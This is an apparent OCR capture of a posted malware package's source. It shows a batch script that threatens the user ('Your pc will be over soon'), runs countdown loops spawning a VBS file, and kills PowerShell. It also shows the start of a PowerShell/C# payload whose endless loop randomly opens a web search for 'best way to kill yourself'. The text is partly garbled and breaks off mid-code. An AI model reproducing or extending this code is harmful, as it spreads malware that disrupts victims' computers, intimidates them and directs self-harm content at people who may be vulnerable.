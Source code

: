 # 09812.zip
09812Source code
@eco off
start kin.ps1
echo Your pc will be over soon.
echo
echo What you have already done
echo
echo You have been warned.
for /l %%a in (60,-1,1) do (
    echo What's more %%a Seconds
    timeout /t 1 > nul
     start mong.vbs

)
taskkill /im powershell.exe /f
echo
for /l %%a in (60,-1,1) do (
    echo What's more %%a Seconds
    timeout /t 1 > nul
     start mong.vbs

）。
kin.ps1。Source code
 $source= @"
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Drawing;
using System.Linq;
using System.Text;
using System.Windows;
using System.Runtime.InteropServices;
using System.IO;
using System.Diagnostics;
using System.Media;
using System.Reflection;
using System.Threading;

　public static class Win32
{

public static void open()
{
while(true)
         {
                Random random = new Random();
                                int rnd_pgm = random.Next(46);

                {
                    if (rnd_pgm == 1)
                    {
                        Process.Start("http://google.co.ck/search?q=best+way+to+kill+yourself");
                    }
                }
